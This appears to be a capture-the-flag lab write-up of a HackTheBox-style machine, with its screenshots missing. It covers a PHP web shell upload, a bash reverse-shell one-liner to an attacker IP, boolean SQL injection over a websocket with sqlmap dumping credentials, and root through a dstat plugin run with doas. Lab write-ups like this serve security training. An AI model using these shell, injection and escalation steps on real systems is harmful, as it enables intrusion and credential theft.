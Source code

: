 ![image](https://github.com/user-attachments/assets/51bcca77-3f16-46db-a196-fcd1e2d69b7e)

nmap


Discovery




https://github.com/prasathmani/tinyfilemanager



Upload shell.php




bash -c 'bash -i >& /dev/tcp/10.10.16.7/9001 0>&1'
Ctrl+U URL encode




As per nmap result port 9091 is open. What is port 9091 is using for. Check the listening port. We will see the machine is listening on port 9091 but process is hidden, so we don't know which process is running.


We only see our process, we don't see all processes.


hidepid=2 that means we cannot see processes from another user.


We will see a lot less number in proc because we don't have access to it.


So we can't enumerate port 9091 based upon the process.
So we are going to go over to nginx config.




Go to the website, sign up an account and login.


We will test sql injection. If the statement is true, it will show "Ticket Exists". If not true, it will show "Ticket Doesn't Exist". That means it is taking our input and it is vulnerable to sql injection.




Capture that request and send it to repeater. But no matter how we send the request, we won't receive the server response.


If we toggle this websocket and resend the request, we will receive server response.


We need to use SQLmap, this is boolean injection vulnerability and we don't want to do it manually because if we are going to check if one character exists at a time, it is going to take a long time to do in this repeater window.
Copy to file and name as "injection.req".



We can test this with wscat. Some web sockets require /ws but in this case it does not.


Define -u url and --data * is where you want to inject.
In this case we tested injection like this {"id":"84280 or 1=1-- -"} in above screenshots. That's why our cmd is {"id":"*"}


Then, we will use --dbs. The reason why we are using --dbs is we don't want to dump information schema and anything like that. 
Because sqlmap is very slow and take so much time, if we are going to dump every database, it will take much longer.


If we want to speed this up, we can use --threads 10.


Now we know the database name is soccer_db.


Now we can remove --dbs.
-D = database name
--dump = to dump the database


We got the database.
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+


We tried to login to website but there is nothing.


We check the users on target and we found player is a user. Thats why we will try to login SSH.






We can see the user process but not from another user.


We will check if there is somthing this user own but the results is too many.


We put grep like this to remove /proc /run /sys outputs.


We will check the group. And we found dstat. It is interesting.


We have rwx permission.


But sudo -l does not show anything.


find dstat and we found dstat is installed in these locations.


We have no suid on the application.


Doas has SUID.



GTFO bin



This is the only folder we can write.


Add the plugin. cmd from GTFO bin.


You will see the "aung" plugin was added.


We use doas with dstat because doas has SUID.
We got root.



